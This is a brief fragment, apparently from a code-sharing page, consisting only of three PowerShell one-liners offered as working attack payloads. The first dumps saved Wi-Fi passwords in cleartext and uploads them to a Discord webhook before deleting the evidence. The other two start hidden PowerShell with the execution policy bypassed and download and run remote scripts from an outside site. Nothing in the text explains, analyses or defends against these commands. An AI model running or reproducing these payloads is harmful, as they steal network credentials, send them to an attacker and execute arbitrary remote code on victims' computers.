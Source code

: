 weeefy:

cd $env:tmp;netsh wlan export profile key=clear;Select-String -Path Wi*.xml -Pattern 'keyMa*' > Wi-Fi;curl.exe -F "f=@Wi-Fi" "https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc";rm "Wi-*"



powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';$db='';irm jakoby.lol/9nb | iex


powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1291043643804614757/c1V5o7T1Ss0t1fMThP98fAZK9mFCrB9tK4gCWProZ3RgHdl1VHvBy_lGudQPI_eVWKsc';irm https://jakoby.lol/hgw | iex


